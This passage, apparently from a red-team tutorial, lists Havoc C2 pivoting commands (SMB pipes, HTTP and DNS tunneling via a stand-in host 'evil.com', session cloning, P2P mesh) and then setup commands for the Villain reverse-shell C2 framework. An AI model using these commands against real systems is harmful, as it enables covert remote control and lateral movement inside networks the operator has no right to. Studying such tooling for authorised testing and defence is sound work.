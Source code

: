### 6.4 Advanced Havoc Pivoting Features

```bash
# Named pipe pivoting for same-host lateral movement
demon> pivot smb --pipe-name "msf-pipe" --host target_host

# HTTP(S) tunnel with custom user agent
demon> pivot http --host proxy_host --port 8080 --user-agent "Mozilla/5.0"

# DNS tunneling for covert communication
demon> pivot dns --domain evil.com --server 8.8.8.8

# Session passing between agents
demon> session pass --session-id 2 --pivot-id 1

# Session cloning for redundancy
demon> session clone --session-id 1 --method tcp --host 192.168.1.200

# P2P mesh networking
demon> pivot p2p --enable --port 6666 --peers "192.168.1.100:6666"
```

## 7. Villain Framework: Collaborative C2 with Session Sharing

:::note
Villain requires Python 3 and is available in Kali Linux repositories. Replace IP addresses, usernames, passwords, and port numbers with values appropriate to your environment. The collaborative features require multiple Villain instances running on different machines.
:::

Villain is a high-level stage 0/1 C2 framework that excels at managing multiple reverse TCP and HoaxShell-based shells while providing unique collaborative capabilities for team operations.

### 7.1 Framework Installation and Setup

```bash
# Install from Kali repositories
sudo apt install villain

# Manual installation from source
git clone https://github.com/t3l3machus/Villain
cd Villain
pip3 install -r requirements.txt

# Start Villain server
villain

# Start with custom ports
villain -p 65001 -x 8080 -n 4444 -f 8888

# Start with SSL support for HoaxShell HTTPS
villain -c cert.pem -k key.pem
```
